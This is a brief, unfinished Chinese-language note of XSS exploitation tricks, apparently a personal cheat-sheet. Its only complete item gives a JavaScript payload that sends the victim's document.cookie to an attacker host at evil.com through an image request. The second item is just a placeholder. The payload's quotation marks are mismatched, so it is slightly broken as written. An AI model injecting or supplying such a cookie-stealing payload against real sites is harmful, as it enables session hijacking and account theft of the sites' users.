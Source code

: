 ### XSS利用技巧

1. 获取敏感数据：
	`eval(‘new Image().src=“http://www.evil.com/steal.php?c=“+escape(document.cookie)')
`

2. waiting....